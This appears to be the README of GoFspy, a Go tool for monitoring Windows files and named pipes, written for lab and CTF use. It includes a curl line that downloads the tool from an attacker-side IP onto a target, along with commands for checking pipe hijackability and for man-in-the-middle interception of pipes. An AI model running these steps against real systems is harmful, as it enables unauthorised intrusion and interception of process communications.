

######
GoFspy
######

| Monitoring files and pipes using golang.
| You can use https://github.com/charlesgargasson/gopspy for processes.

|

*****
Build
*****

| crosscompile
|

.. code-block:: bash

    sudo bash dockerbuild.sh
    sudo cp bin/gofspy*.exe /var/www/html/
    sudo chmod 644 /var/www/html/gofspy*.exe

|
| Pre-compiled releases, for lab/ctf (don't trust binaries from strangers)

- https://dl.piratekit.com/compiledmyself/gofspy.exe
- https://dl.piratekit.com/compiledmyself/gofspy32.exe

|

******
Client
******

Default
*******

| The program run indefinitely when started in default monitoring mode and shows :

- Files : New 🟢, Delete ❌, Modify 🟠, Old Name 🟣, New Name 🔵, RW infos, Owner
- Dirs : New 🟢, Delete ❌, Modify 🟠, Old Name 🟣, New Name 🔵, Owner
- Pipes : New 🟢, Delete ❌, Modify 🟠, Existing ⚪

|

.. code-block:: powershell

    curl.exe http://10.10.14.121/gofspy.exe -o gofspy.exe
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe"

.. code-block:: powershell

    Stop-Process -Name "gofspy"
    taskkill /F /IM gofspy.exe

|

|

|

Files
*****

.. code-block:: powershell

    # Files only
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '-files'

|

Pipes
*****

.. code-block:: powershell

    # Pipes only
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '-pipes'

    # List pipes and quit
    ./gofspy.exe -listpipes

|

| Read data

.. code-block:: powershell
    
    # Read data
    ./gofspy.exe -pipe "\\.\pipe\testing" -read
    
|

| Write data

.. code-block:: powershell
    
    # Send "test" message to pipe
    ./gofspy.exe -pipe ""\\.\pipe\testing" -write "test"

    # Send bytes to pipe
    ./gofspy.exe -pipe "\\.\pipe\testing" -write "test\r\ntest\x0D\x0A" -bytes

    # Send bytes to pipe and stream any data reponse
    ./gofspy.exe -pipe "\\.\pipe\testing" -writeread "test\r\ntest\x0D\x0A" -bytes

|

| There is a check option to check for RW access, retrieve owner, and check if hijackable.
| It can lead targeted pipes to be unstable or crash, use with caution !
|

.. code-block:: powershell
    
    # Check existing pipes access and quit
    ./gofspy.exe -listpipes -check -hijack 1

    # Check a pipe access and quit
    ./gofspy.exe -pipe '\\.\pipe\testing' -check -hijack 1
    
|

*****************
Named Pipe Server
*****************

| GoFspy can run a duplex named pipe server.
| This server read any client input and write an hello msg every x seconds
|

.. code-block:: powershell

    # Start named pipe server
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '--server'

    # Start named pipe server with pipe '\\.\pipe\testing'
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '--server', '--pipe', '\\.\pipe\testing'

|

****
MiTM
****

| This feature is experimental and highly unstable
| 

.. code-block:: powershell
    
    # Check if we can do MiTM on pipes
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '--pipes','--hijack', '1'

    # Perform MiTM 
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gofspy.exe" -ArgumentList '--pipes','--hijack', '2'

|

****
Todo
****

- Retrieve more infos from named pipe
- ACLs check for dirs, and maybe pipes and files
- Filter, conditions

|

******
Credit
******

- https://github.com/cyberark/PipeViewer
- https://github.com/cyberark/PipeViewer/blob/main/PipeViewerShellV1.0.ps1
- https://github.com/xct/winpspy/tree/master
- https://www.mdsec.co.uk/2022/08/fourteen-ways-to-read-the-pid-for-the-local-security-authority-subsystem-service-lsass/

|

***********
Third Party
***********

| GoFspy relies on go-winio : github.com/Microsoft/go-winio

|
